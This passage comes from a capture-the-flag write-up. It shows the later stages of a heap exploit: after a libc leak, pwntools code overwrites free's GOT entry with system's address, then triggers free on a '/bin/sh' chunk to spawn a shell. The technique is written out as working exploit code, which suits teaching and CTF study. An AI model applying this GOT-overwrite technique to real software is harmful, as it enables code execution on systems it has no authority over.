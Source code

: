 After getting the `puts` leak, we can calculate the addresses of the other libc functions like `system` using their known offsets.\
Now, we proceed onto overwriting `free`'s GOT entry with `system`'s libc address using the same strategy of overwriting `description`'s address with free's GOT address : `0x405000` :
```
        p.sendline(b"3")
        p.recv()
        payload = b"a"*16 + b"\x00\x50\x40\x00"
        p.sendline(payload)
```
and then use `edit_rocket_description` function to write  system's address into it:
```
p.sendline(b"4") # Edit Description
p.recv()

p.sendline(p64(system_addr) + p64(puts_addr) + p64(strlen_addr) + p64(printf_addr) + p64(getchar_addr) + p64(malloc_addr))
```
Here, we not only overwrite free's entry, but all the adjecent ones til `exit`, to avoid the nullbyte that `take_input` appends at the end of each read.


## Stage 3: Trigger a free('/bin/sh')
Everything is setup in it's place, all we need now is to trigger a free on "/bin/sh" chunk.

```
p.sendline(b"4") # Edit description
p.recv()

p.sendline(b"/bin/sh\x00") # to /bin/sh
p.recv()


p.sendline(b"6") # Trigger
```
`free("/bin/sh")` = `system("/bin/sh")` which gives a shell.

![Checksec](https://github.com/MohandAcherir/Writeups/blob/main/404CTF/pics/Screenshot%20from%202025-05-25%2023-25-15.png)
